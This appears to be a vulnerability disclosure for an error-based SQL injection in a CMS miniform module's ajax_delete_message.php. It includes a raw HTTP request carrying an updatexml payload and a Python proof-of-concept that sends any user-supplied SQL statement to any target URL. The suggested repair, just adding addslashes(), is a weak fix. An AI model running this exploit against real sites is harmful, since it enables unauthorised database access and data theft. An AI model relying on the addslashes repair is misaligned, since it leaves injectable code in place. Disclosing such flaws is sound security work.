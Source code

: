 # SQL injection In modules/miniform/ajax_delete_message.php multiple post parameter combinations exist error injection

![image-20230121023625040](https://wanan-1310031509.cos.ap-beijing.myqcloud.com/img/202301211438742.png)

request packet

```
POST /modules/miniform/ajax_delete_message.php HTTP/1.1
Host: stu
Content-Length: 170
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://stu
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://stu/modules/miniform/ajax_delete_message.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

DB_RECORD_TABLE=droplets&purpose=delete_record&action=delete&DB_COLUMN=id%60+%3D+-1+or+updatexml%281%2Cconcat%28%27%24%27%2C%28database%28%29%29%29%2C0%29%23&iRecordID=-1
```

poc

```python
import requests

url = input("Enter url:")
url = url+"/modules/miniform/ajax_delete_message.php"
pay = input("Enter the sql statement you want to execute:")
data={
"DB_RECORD_TABLE":"droplets",
    "purpose":"delete_record",
    "action":"delete",
    "DB_COLUMN":f"id` = -1 or updatexml(1,concat('$',({pay})),0)#",
    "iRecordID":"-1"
}
res = requests.post(url,data=data)
print(res.text)
```

![image-20230121143533422](https://wanan-1310031509.cos.ap-beijing.myqcloud.com/img/202301211438287.png)

Repair plan 

add addslashes()

![image-20230121222546074](https://wanan-1310031509.cos.ap-beijing.myqcloud.com/img/202301212225763.png)

